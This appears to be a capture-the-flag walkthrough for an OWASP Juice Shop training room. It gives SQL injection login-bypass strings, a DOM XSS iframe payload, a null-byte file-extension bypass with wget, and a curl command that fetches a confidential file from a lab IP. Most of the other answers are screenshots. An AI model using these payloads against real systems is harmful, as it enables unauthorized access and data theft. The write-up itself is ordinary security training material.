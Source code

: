 # OWASP Juice Shop

## :motorway: Let's go on an adventure!

### #1 **What's the Administrator's email address?**

![](<../../.gitbook/assets/Screenshot from 2020-08-30 17-18-39.png>)

### #2 **What paramater is used for searching?**

![](<../../.gitbook/assets/Screenshot from 2020-08-30 17-13-32.png>)

### #3 **What show does Jim reference in his review?**

```
Star Trek
```

![](<../../.gitbook/assets/Screenshot from 2020-08-30 17-17-20.png>)

## :syringe: Inject the juice

### **#1 Log into the administrator account!**

```
' OR 1 = 1 --
```

### #2 **Log into the Bender account!**

```
bender@juice-sh.op' --
```

## :unlock: Who broke my lock?!

### #1 Bruteforce the Administrator account's password!

![](<../../.gitbook/assets/Screenshot from 2020-08-30 17-45-01.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-30 17-46-28.png>)

### #2 Reset Jim's password!

![](<../../.gitbook/assets/Screenshot from 2020-08-30 17-50-45.png>)

## AH! Don't look!

### #1 Access the Confidential Document!

```bash
curl http://10.10.184.117/ftp/acquisitions.md
```

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-36-20.png>)

### #2 Log into MC SafeSearch's account!

```
mc.safesearch@juice-sh.op
Mr. N00dles
```

### #3 Download the Backup file!

```
wget 'http://10.10.184.117/ftp/package.json.bak%2500.md'
```

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-03-14.png>)

## Who's flying this thing?

### #1 Access the administration page!

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-31-30.png>)

### #2 View another user's shopping basket!

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-26-31.png>)

### #3 Remove all 5-star reviews!

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-33-10.png>)

## Where did that come from?

### #1 Perform a DOM XSS!

```
<iframe src="javascript:alert(`xss`)"> 
```

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-52-51.png>)

### #2 Perform a persistent XSS!

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-55-05.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-55-48.png>)

### #3 Perform a reflected XSS!

![](<../../.gitbook/assets/Screenshot from 2020-08-30 21-51-52.png>)

## Exploration!

### #1 **Have fun!**

![](<../../.gitbook/assets/Screenshot from 2020-08-30 22-03-06.png>)
